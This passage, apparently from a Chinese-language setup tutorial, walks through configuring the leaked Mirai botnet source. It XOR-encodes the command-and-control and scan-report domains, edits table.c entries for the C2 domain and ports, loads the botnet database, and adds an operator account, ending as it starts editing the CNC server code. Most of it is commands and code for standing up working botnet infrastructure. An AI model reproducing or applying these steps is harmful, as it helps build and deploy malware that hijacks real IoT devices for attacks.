 ```
\x41\x4C\x41\x0C\x56\x47\x51\x56\x0C\x4F\x47\x22
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# ./enc.out string report.test.me
XOR'ing 15 bytes of data...
\x50\x47\x52\x4D\x50\x56\x0C\x56\x47\x51\x56\x0C\x4F\x47\x22
```
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# vim ../bot/table.c
```
修改第18行和21行
```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x56\x47\x51\x56\x0C\x4F\x4    7\x22", 30); // cnc.changeme.com
add_entry(TABLE_CNC_PORT, "\x22\x35", 2);   // 23

add_entry(TABLE_SCAN_CB_DOMAIN, "\x50\x47\x52\x4D\x50\x56\x0C\x56\x47\x5    1\x56\x0C\x4F\x47\x22", 29); // report.changeme.com       
add_entry(TABLE_SCAN_CB_PORT, "\x99\xC7", 2);         // 48101
```
配置数据库文件,修改db.sql文件<br>
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/tools# cd ../../scripts/
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# vim db.sql

CREATE DATABASE mirai;
use mirai;
CREATE TABLE `history` (
```
修改完成之后启动数据库，将db.sql文件导入到数据库中<br>
这里我的数据库用户为`root`，密码为`123456`
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# service mysql start
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# cat db.sql | mysql -uroot -p
Enter password: 123456
```
在数据库中添加mirai用户,这里账号密码可以随意设置<br>
用户账号:mirai-user
用户密码:mirai-pass
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# mysql -uroot -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5
Server version: 5.7.29-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mirai;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
Query OK, 1 row affected (0.00 sec)

mysql> exit
```
修改mirai/cnc/main.go中的数据库常量
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/scripts# vim ../mirai/cnc/main.go
```